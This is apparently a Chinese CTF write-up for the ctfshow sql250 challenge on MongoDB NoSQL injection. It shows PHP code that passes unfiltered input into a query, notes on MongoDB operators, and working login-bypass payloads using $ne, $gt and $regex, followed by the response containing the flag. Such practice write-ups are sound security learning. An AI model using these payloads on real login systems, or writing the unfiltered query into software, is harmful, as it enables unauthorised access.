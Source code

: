 # ctfshow-sql250



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623

郁离歌大佬 https://blog.csdn.net/like98k/article/details/79436463

sql常见方法及udf提权   https://blog.csdn.net/qq_43645782/article/details/105468416

bit  https://www.xl-bit.cn/index.php/archives/93/





 查询语句 

```
  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
```



 返回逻辑 

```
  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
      

```



```sql
补充一下nosql注入笔记
http://rui0.cn/archives/609
https://www.anquanke.com/post/id/97211





$gt : >
$lt : <
$gte: >=
$lte: <=
$ne : !=、<>
$in : in
$nin: not in
$all: all 
$or:or
$not: 反匹配(1.3.3及以上版本)
模糊查询用正则式：db.customer.find({'name': {'$regex':'.*s.*'} })
/**
* : 范围查询 { "age" : { "$gte" : 2 , "$lte" : 21}}
* : $ne { "age" : { "$ne" : 23}}
* : $lt { "age" : { "$lt" : 23}}
*/


//查询age = 22的记录
db.userInfo.find({"age": 22});
//相当于：select * from userInfo where age = 22;
//查询age > 22的记录
db.userInfo.find({age: {$gt: 22}});
//相当于：select * from userInfo where age > 22;



无过滤，利用$ne就可以了（post传进去）就可拿到flag
username[$ne]=1&password[$ne]=1
username[$gt]=1&password[$gt]=1
或者正则也行：
username[$regex]=.*&password[$regex]=.*


{"code":0,"msg":"\u767b\u9646\u6210\u529f ctfshow{b4f8450b-889d-41a9-b019-3e6117723691}","count":1,"data":["ctfshow{b4f8450b-889d-41a9-b019-3e6117723691}"]}



```



























